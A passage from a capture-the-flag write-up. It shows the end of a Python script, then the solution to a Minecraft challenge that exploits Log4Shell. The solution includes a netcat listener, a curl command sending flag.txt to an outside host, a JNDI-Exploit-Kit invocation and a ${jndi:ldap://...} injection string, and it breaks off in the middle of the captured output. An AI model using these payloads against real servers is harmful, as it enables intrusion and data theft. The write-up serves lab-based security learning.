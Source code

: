                 result += c
            else:
                result += "."
    except:
        print("Error reading offset {}, filling with ?".format(offset))
        result += "????"
    if offset % 10 == 0:
        print("reading offset {}/120".format(offset))
print(result)
```

</br>

## Minecraft - Medium

*My buddy set up a Minecraft server. I wonder what else is on their machine?*
</br>

The task is a Minecraft server running a vanilla Minecraft 1.16.5 server on OpenJDK 8u111. It is vulnerable for the [Log4Shell (https://en.wikipedia.org/wiki/Log4Shell) vulnerability. It can be exploited using a publicly available exploit toolkit such as [JNDI-Exploit-Kit](https://github.com/pimps/JNDI-Exploit-Kit). The flag is hidden in a file named "flag.txt".

To start with, we need a publicly available server which we use to exfiltrate our data from the target network. This can be achieved by running `netcat` on a server of your choice:

```
nc -l 8001
```

We craft a command to upload the flag from the Minecraft server to the server that is running `netcat`. You can use any command here including a reverse shell, but for simplicity we just upload the flag file using `curl`:

```
curl --data-binary @flag.txt http://myserver:8001
```

To generate and serve the payload, we can use `JNDI-Exploit-Kit` and pass our crafted command as an argument:

```
java -jar JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -C "curl --data-binary @flag.txt http://myserver:8001/"
```

The tool will present a variety of different payloads. We take the `JDK 1.8 ldap://` payload and wrap it in a Log4j substitution:

```
${jndi:ldap://myserver:1389/w9nmaj}
```

Finally we just connect to the Minecraft server and drop the payload string in the chat. 

![](../../src/blog/images/neuland-ctf-04-2022/minecraft.webp)
</br>

The server will log all chat messages to the server log and as a result trigger the Log4Shell vulnerability.

```
$ nc -l 8001
POST / HTTP/1.1
User-Agent: curl/7.38.0
Host: myserver:8001